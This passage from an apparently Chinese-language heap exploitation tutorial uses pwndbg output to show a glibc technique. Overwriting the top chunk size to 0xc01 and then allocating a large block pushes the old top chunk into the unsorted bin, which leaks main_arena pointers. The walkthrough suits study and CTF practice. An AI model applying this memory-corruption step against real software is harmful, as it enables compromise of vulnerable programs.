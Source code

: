 ```shell
Size: 0x20c01

pwndbg>
```

接下来是修改Top chunk为`0xc01`：

```c
  ► 73     top[1] = 0xc01;
```

```shell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Top chunk | PREV_INUSE
Addr: 0x602400
Size: 0xc01
```

然后申请新的Top chunk,旧Top chunk被放进Unsorted Bin。

```c
 ► 119     p2 = malloc(0x1000);
```

```shell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x602400
Size: 0xbe1
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk
Addr: 0x602fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x602ff0
Size: 0x11

Allocated chunk
Addr: 0x603000
Size: 0x00

pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602400 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602400
smallbins
empty
largebins
empty
```